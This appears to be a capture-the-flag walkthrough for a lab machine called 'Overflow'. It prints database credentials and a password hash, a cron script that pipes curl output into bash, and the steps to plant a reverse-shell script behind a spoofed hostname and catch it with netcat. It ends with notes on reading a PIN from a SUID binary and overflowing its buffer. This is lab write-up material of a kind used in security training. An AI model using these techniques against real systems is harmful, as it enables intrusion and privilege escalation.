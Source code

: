 ```bash
mysql -D'Overflow' -u'developer' -p'sh@tim@n' -e'select * from users;'
# +----------+----------------------------------+
# | username | password                         |
# +----------+----------------------------------+
# | admin    | c71d60439ed5590b3c5e99d95ed48165 |
# +----------+----------------------------------+
```

`/var/www//devbuild-job/config/db.php`:

```php
$lnk = mysqli_connect("localhost","dev_manager", "3RyxKah_hBf*V6ja","develop");
```

## developer to tester

Check whats going on with pspy

- Create task.sh on ur attacking machine that when ran it creates a reverse connection to u
- spin ur python web server on port 80
- set ur attacking IP to resolve taskmanage.overf*** on overflow's host file
- start netcat listener and wait a minute for tester to connect 😀

## Escalation

```bash
cat /opt/commontask.sh
# bash < <(curl -s http://taskmanage.overflow.htb/task.sh)
ls -lah /opt/file_encrypt/
# total 24K
# drwxr-x---+ 2 root root 4.0K Sep 17 21:56 .
# drwxr-xr-x  3 root root 4.0K Sep 17 21:56 ..
# -rwsr-xr-x  1 root root  12K May 31 08:41 file_encrypt
# -rw-r--r--  1 root root  399 May 30 14:59 README.md
cat /opt/file_encrypt/README.md
# Our couple of reports have been leaked to avoid this. We have created a tool to encrypt your reports. Please check the pin feature of this application and report any issue that you get as this application is still in development. We have modified the tool a little bit that you can only use the pin feature now. The encrypt function is there but you can't use it now.The PIN should be in your inbox
crontab -l -u tester
# # m h  dom mon dow   command
# * * * * * bash /opt/commontask.sh
```

i have the `file_encrypt`, not sure where im getting the PIN from or is this a disassemble/RE kinda thing with a buffer overflow (hence the name)???

there is a function in the program called random which generates the pin, if you break at it and step until the end you can read registers and grab the pin from eax

random+57 its almost the end of random function

the pin -202976456 is valid and after that there is an scanf that triggers a buffer overflow after 44 characters
